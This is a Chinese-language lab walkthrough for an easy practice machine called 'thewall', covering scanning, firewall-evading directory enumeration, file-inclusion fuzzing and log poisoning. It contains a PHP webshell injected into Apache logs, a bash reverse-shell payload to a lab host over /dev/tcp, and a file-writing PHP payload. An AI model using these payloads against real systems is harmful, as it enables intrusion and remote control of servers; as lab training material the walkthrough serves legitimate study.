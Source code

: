 
|   |   |   |
|---|---|---|
|thewall|easy|Akamai  防火墙、绕过wall、fuzz、文件包含利用、exiftool提权、sudo提权、ssh私钥利用|

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238 
```

22，80
### 目录扫描

由于目标靶场安装了Akamai  防火墙，正常的扫描会被拦截。所以使用gobuster扫描的时候增加延时和线程控制
```css
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.18.238 -x php -e --delay 1s -t 1 


http://192.168.18.238/includes.php
```
这里扫描出来了一个文件包含名字的文件，尝试对其进行fuzz 参数。这里发现任何访问的响应都是200和长度为2，所以还需要设置排除项
```c
wfuzz -c --hc=404 --hh=2 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://192.168.18.238/includes.php?FUZZ=/etc/passwd'


000217299:   200        28 L     41 W       1460 Ch    "display_pag“
```

得到传入的参数为display_page


# GETSHELL
通过bp 爆破了发现利用访问日志记录。

那我们可以尝试写入webshell到日志，然后取包含它

```css
┌──(kali㉿kali)-[~]
└─$ nc 192.168.18.238 80
GET <?php system($_GET['cmd']); ?>


http://192.168.18.238/includes.php?display_page=/var/log/apache2/access.log&cmd=bash+-c+%27bash+-i+%3E%26/dev/tcp/192.168.44.128/9001+0%3E%261%27
```

获得第一个flag
```c
www-data@TheWall:/home/john$ cat user.txt
cat user.txt
cc5db5e7b0a26e807765f47a006f6221
```

使用file_put_contents函数写入shell

```c
nc 192.168.18.238 80 
GET <?php file_put_contents('/var/www/html/a.php',base64_decode($_GET['a'])); ?>
```

访问一下链接：http://192.168.1.226/includes.php?display_page=/var/log/apache2/access.log
然后确定`<?php phpinfo();?>`base64编码的代码
```css
http://192.168.18.238/includes.php?display_page=/var/log/apache2/access.log&a=PD9waHAgcGhwaW5mbygpOyA/Pg==
```

